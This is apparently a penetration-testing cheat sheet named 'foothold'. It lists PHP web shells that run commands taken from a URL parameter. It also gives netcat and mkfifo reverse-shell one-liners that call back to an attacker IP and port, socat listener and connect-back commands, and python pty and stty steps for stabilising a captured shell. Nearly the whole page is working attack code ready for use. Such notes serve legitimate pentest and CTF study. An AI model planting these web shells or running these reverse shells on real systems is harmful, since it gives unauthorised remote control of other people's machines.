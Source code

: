# foothold

## Web shells

- A simple PHP web shell.

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Socat

Listener

```shell
socat TCP-L:1234 FILE:`tty`,raw,echo=0 
```

Connect back to listener

```shell
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Netcat

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.


